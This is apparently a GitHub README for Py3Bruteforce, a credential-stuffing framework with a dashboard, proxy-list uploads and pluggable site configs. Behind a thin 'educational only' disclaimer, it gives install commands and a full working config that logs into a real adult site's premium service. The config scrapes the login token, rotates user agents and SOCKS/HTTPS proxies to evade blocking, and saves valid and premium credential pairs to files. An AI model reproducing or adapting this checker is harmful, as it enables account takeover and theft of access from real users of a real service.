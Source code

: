 # Py3Bruteforce a new way for bruteforcing with Python

## Warning
This was made only for educational, not for hacking ! Use it at your own risk!

## About

Py3Bruteforce is a web-service which allows you to write your own configs and work with them. 
Config-size is about 70-80 lines of code.


## Dashboard screenshot :

![Dashboard](https://github.com/fukttt/fukttt.github.io/raw/main/image/1.png)

Here you can see 
* Dashboard with running projects
* Wiki (for now he is empty)
* Logs (page with logs from projects)
* Upload files (uploading module/sources/proxies)
* System info (about CPU using in graph)
* Available modules (where u can choose module and run it)

## Installation

```bash
git clone https://github.com/fukttt/py3bruteforce.git
cd pybruteforce/
pip3 install -r requirements.txt
python3 app.py
```

### Sample config for PornHub

```python
  import requests
  from utils.utils import Help
  import os,sys
  from bs4 import BeautifulSoup as soup

  # Turning off warnings
  from requests.packages.urllib3.exceptions import InsecureRequestWarning
  requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


  class Brute(object):
      def __init__(self):
          # ========================================
          # Project information
          self.projectName = "Porn"
          self.projectFullName = "PornHub"
          self.description = "Author : Pirate2110"
      def check(self, login, password, proxytype, proxy, timeout):
          try:
              # if proxy == null pass
              if proxy == "err":
                  print("proxerr")
                  pass
              else:
                  with requests.session() as s:
                      # All what u need for project start - here
                      # ========================================
                      # Proxy
                      if proxytype == "no":
                          proxies = None
                      elif proxytype == "burp":
                          proxies = {'https': '127.0.0.1:8080', 'http': '127.0.0.1:8080'}
                      elif proxytype == "https":
                          proxies = {'https': "http://" + proxy}
                      elif proxytype == "socks4":
                          proxies = {'https': "socks4://" + proxy}
                      elif proxytype == "socks5":
                          proxies = {'https': "socks5://" + proxy}

                      # ========================================
                      # Headers
                      headers = {'User-Agent' : Help.getRandomUa()}
                      # Token
                      r = s.get("https://rt.pornhubpremium.com/premium/login", proxies=proxies, verify=False, timeout=timeout, headers=headers)
                      site = soup(r.text, "html.parser")
                      token = site.find("input", id="token")
                      body = {'username' : login, 'password': password, 'remember_me' : 'on', 'from':'mobile_login', 'token' : str(token['value']), 'redirect' : '', 'from' : 'pc_premium_login', 'segment':'straight'}
                      # Auth request
                      r = s.post("https://rt.pornhubpremium.com/front/authenticate", data=body, proxies=proxies, verify=False, timeout=timeout, headers=headers)
                      # ========================================
                      # good or bad if statement
                      if "\u041d\u0435\u0432\u0435\u0440\u043d\u043e\u0435" in r.json()['message']:
                          return "bad"

                      elif r.json()['success'] == "1":
                          if "https://rt.pornhubpremium.com/premium_signup?type=PhP-Lander" in r.json()['redirect']:
                              Help.writelog("good.txt", login + ":" + password + "|" + str(r.text))
                          else:
                              Help.writelog("premium.txt", login + ":" + password + "|" + str(r.text))
                          return "good"
                          #return login + ":" + password + "|" + str(r.json()['result']['basic']) + "|" + str(r.json()['result']['bonus'])
                      else:
                          return "projerrror"
                      # ========================================
          except Exception as e:
              #  ========================================
              #  some info about error
              exc_type, exc_obj, exc_tb = sys.exc_info()
              fname = os.path.split(exc_tb.tb_frame.f_code.co_filename)[1]
              #print(e, exc_type, fname, exc_tb.tb_lineno)
              return "error"
  ```


